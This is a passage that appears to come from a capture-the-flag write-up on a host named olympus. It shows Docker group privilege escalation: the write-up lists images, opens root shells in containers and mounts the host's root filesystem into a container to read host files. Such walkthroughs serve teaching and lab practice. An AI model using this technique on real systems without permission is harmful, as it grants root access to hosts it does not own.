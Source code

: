Trying to list all Docker images with `docker images`, we find various entries.

```bash
prometheus@olympus:~$ docker images 
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
crete               latest              31be8149528e        7 years ago         450MB
olympia             latest              2b8904180780        7 years ago         209MB
rodhes              latest              82fbfd61b8c1        7 years ago         215MB
```

We found three Docker images: `crete`, `olympia` and `rhodes`. Trying to access the first image with `docker run`, we enter the first `zeus` container.

```bash
prometheus@olympus:~$ docker run -it crete /bin/bash
root@ca7897b5c74d:/home/zeus/airgeddon#
```

Continuing with the second image, we enter a `root` container.

```bash
prometheus@olympus:~$ docker run -it olympia /bin/bash
root@0699c227aaba:/# 
```

Entering the third container, we have another `root` enabled shell.

```bash
prometheus@olympus:~$ docker run -it rodhes /bin/bash
cat: /etc/hostip: No such file or directory
root@9514f22f1505:/#
```

We currently have a couple of containers providing us a `root` shell. Running `lsblk`, shows the partition where the `root` of the filesystem is stored (`/`).

```bash
prometheus@olympus:~$ lsblk
NAME   MAJ:MIN RM SIZE RO TYPE MOUNTPOINT
sda      8:0    0   6G  0 disk 
├─sda1   8:1    0   4G  0 part /
├─sda2   8:2    0   1K  0 part 
└─sda5   8:5    0   2G  0 part [SWAP]
```

Entering each container, we notice that we don't have access to any system partition.

```bash
prometheus@olympus:~$ docker run -it olympia /bin/bash
root@e69e45fd65ce:/# ls /dev
console  core  fd  full  mqueue  null  ptmx  pts  random  shm  stderr  stdin  stdout  tty  urandom  zero
```

We exit the `tty` and mount the `root` partition directly from the `docker` command instead.

```bash
rometheus@olympus:~$ docker run -v /:/mnt/sda1 -it olympia /bin/bash
root@9a17dee7b24b:/# ls /mnt/sda1
bin   dev  home        initrd.img.old  lib64       media  opt   root  sbin  sys  usr  vmlinuz
boot  etc  initrd.img  lib             lost+found  mnt    proc  run   srv   tmp  var  vmlinuz.old
```
